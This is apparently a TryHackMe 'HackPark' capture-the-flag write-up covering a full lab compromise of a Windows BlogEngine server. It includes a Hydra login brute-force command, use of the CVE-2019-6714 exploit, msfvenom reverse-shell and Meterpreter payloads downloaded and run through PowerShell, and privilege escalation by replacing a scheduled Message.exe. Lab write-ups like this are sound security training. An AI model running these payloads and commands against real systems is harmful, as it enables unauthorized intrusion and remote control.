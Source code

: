 # HackPark

**Room Link:** [https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)



### Using Hydra to brute-force a login

**What request type is the Windows website login form using?**

<figure><img src="../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Crafting request for Hydra**

Sent a failed login request to Burp to see what it would look like. With this info I was able to craft my request for hydra. I just needed to get the URL and everything that is sent after VIEWSTATE and just change the input to use ^USER^ and ^PASS^ to brute force these fields.

<figure><img src="../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could also do this without burp by just opening the console and getting the info from there

<figure><img src="../../.gitbook/assets/image (7) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.110.93 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=vvTqZ%2FG4tEKhQoxeTpJ%2FyGxM9ZY9ZIvd6YMUS%2BoY3uaQCjC%2BJRdlkd8rbIQsDHztL%2BjsAvOLJhxU7vTNo3GP%2FLEmsndGPNAlCDn%2FB%2FrK2ynp9QkhRe9iqKBUmM5FQT2kX%2Bg%2BfPDNnTuzqW5IlmTujw4sLEzbvvec9FDW4cbQevgTj1tHnKx0vMmkVah5imro0o%2BHvQ5%2FGvpafEs1NdnW6wrSsUFuXnYzletKCdLG%2FgSb7bCDOK4ukZK%2F1cMOgYtjOCU4gk4M7PhQcYZmGpAN7pPVCMpX2YwGnTSgBPPmCB6avoLqG5jRS%2F3PYMjsqEGcD9P9S555GMQPxtfyvOEaJw%2B%2BZELKU2yVYr4uWxamEITsWNAT&__EVENTVALIDATION=Tp%2B5DS80H3PFB8ipJ24uKyHkPhSkqKD7GFJlc2U6IaO61l68aholdIjrZJ%2FsotSi0QxRBQjayWovmb2SU%2Fk6lY%2BOpju62jOGDkAvqcdNsqGrgf3vrAYw88XT2ONABFvDTR771I2YAr7JylJ0HbBZV83nGvvXWSC6rmKDGn80%2FuszTjDZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (3) (3) (2).png" alt=""><figcaption><p>Credentials found</p></figcaption></figure>

### Compromise the machine

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

<figure><img src="../../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE?**

CVE-2019-6714

**Exploit Link:** [https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353)

**Using the public exploit, gain initial access to the server. Who is the webserver running as?**

Created the file mentioned in the exploit, just changed the IP to my IP.

<figure><img src="../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Setup a nc listener&#x20;

```
rlwrap nc -lvnp 4445
```

Upload the file

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (2) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to the link and the nc listener should have caught it

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (2) (1).png" alt=""><figcaption></figcaption></figure>

### **Windows Privilege Escalation**

**Setting up meterpreter shell**

**Kali #1**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.218.233 LPORT=1337 -e x86/shikata_ga_nai -f exe -o reverse.exe
python2 -m SimpleHTTPServer 81
```

**Kali #2**&#x20;

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.218.233  
set LPORT 1337 
run
```

**Victim**&#x20;

```
cd C:\Windows\Temp powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/reverse.exe','reverse.exe')" reverse.exe
```

**What is the OS version of this windows machine?**

<figure><img src="../../.gitbook/assets/image (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

**Further enumerate the machine. What is the name of the abnormal **_**service**_** running?**



**Check Windows Exploit Suggester**

**Kali**

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git 
cd Windows-Exploit-Suggester/ 
python3.9 windows-exploit-suggester.py --update 
python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt
```

**Transfer WinPeas**

**Kali**&#x20;

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 81
```

**Victim**&#x20;

```
cd C:\Windows\Temp
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```

![](<../../.gitbook/assets/image (25) (1) (1).png>)

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
cd C:\Program Files (x86)\SystemScheduler\Events
type 20198415519.INI_LOG.txt
```

We can see Message.exe is kept being ran by Administrator so we just need to replace the file with our reverse shell, setup a listener and wait for the Administrator to try to run it.

<figure><img src="../../.gitbook/assets/image (9) (3) (1).png" alt=""><figcaption><p>Message.exe is called by Administrator </p></figcaption></figure>



**Kali**&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.218.233 LPORT=1337 -f exe -o Message.exe 
python2 -m SimpleHTTPServer 81 rlwrap nc -lvnp 1337
```

**Victim**&#x20;

```
cd C:\Program Files (x86)\SystemScheduler 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/Message.exe','Message.exe')"
```

<figure><img src="../../.gitbook/assets/image (16) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (2) (1).png" alt=""><figcaption></figcaption></figure>

